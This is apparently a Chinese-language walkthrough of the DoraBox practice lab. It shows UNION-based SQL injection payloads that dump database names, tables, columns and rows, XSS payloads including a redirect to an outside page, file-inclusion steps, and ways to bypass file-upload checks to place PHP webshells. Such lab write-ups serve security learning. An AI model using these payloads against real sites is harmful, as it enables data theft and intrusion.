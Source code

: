 # DoraBox

# Sql注入

## 第一关，sql注入数字型


源码中id是htmlspecialchars过滤的，过滤是过滤单引号，双引号，尖括号和&的，但是过滤的是html实体并不会影响我们的操作

![image-20220226143949141](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261439284.png)

### 1、测试参数位置

```
-1 union select 1,2,3
```



### (https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261440461.png)2、爆数据库：

```
-1 union select 1,user(),database()
```

![](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261441408.png)

### 3、爆表：

```
-1 UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()
```



### 4、爆列名：

```
-1 UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='news'
```



### 5、爆值：

```
-1 UNION SELECT 1,2,concat_ws('|',id,title,content) from news
```

![image-20220226144410955](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261444010.png)

## 第二关，Sql注入字符型


这关和之前是差不多的，就是要闭合一下单引号即可

![image-20220226144539257](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261445380.png)

```
DoraBox' and '1'='2' union select 1,2,3'
```

![image-20220226144634958](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261446000.png)

### 爆表:

```
DoraBox' and '1'='2' UNION SELECT 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```

![image-20220226144816563](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261448631.png)

### 爆列名:

```
DoraBox' and '1'='2' UNION SELECT 1,2,group_concat(column_name) from information_schema.columns where table_name='news'#
```

![image-20220226144858626](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261448690.png)

### 爆值：

DoraBox' and '1'='2' UNION SELECT 1,2,concat_ws('|',id,title,content) from news#

![image-20220226144927164](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261449209.png)

## 第二关,Sql注入搜索型

这里百分号和单引号都需要闭合

![image-20220226145003517](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261450574.png)

### 爆表：

```
-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()#
```



### 爆列：

```
-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema='pentest' and table_name='account'#
```



### 爆数据：

```
-1' union select 1,2,concat_ws(",",id,rest,own) from account#


```

# Xss跨站

## Xss反射型

```
<script>alert(/XSS/)</script>
```

源码里会打印内容

![image-20220226145148336](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261451412.png)

当然我们还可以在本地搭建一个xss

在网站上输入:

```
<script>location.href='http://www.test.com/xss/1.php'</script>
```



就会跳转到这个页面然后中了我们的xss代码



## Xss存储型

这个xss是存储到数据库里的，每次刷新当前页面都会执行

先输入`<script>alert(/XSS/)</script>`，然后刷新页面就会执行

![image-20220226145336767](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261453818.png)





## Xssdom型

输入`<script>alert(/DOM_xss/)</script>`

这里会打印我们的xss代码

![image-20220226145416778](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261454825.png)



# 文件包含

## 任意文件包含

直接输入 txt.txt包含文件

![image-20220226145747983](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261457151.png)

源码中，这里是直接包含的，中间没有过滤

## 目录限制文件包含

源码这里其实并没有限制目录文件包含

./点斜杠其实是指当前目录的意思，并没有起到限制的作用

![image-20220226150042838](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261500908.png)



# 文件上传

## 任意文件上传

这个页面上传什么文件都可以，不多介绍

![image-20220226150152450](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261501497.png)

![image-20220226150242135](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261502247.png)





## Js限制文件上传

直接限制了我们上传php文件

![image-20220226150339654](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261503784.png)

在上传处审计元素

这里只要把onsubmit直接删掉让js代码不起作用即可

![image-20220226150622397](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261506463.png)

## Mime限制上传

只要是这四种类型的mime都给上传，那我们直接抓包Content-Type改下即可

![image-20220226151403798](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261514885.png)

![](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261514350.png)

## 扩展名限制文件上传


这里源码中限制了一些后缀，我们把后缀改成php3即可

![](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261515642.png)



## 内容限制上传

这关可以直接用图片马来绕过

![image-20220226151806303](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/202202261518357.png)

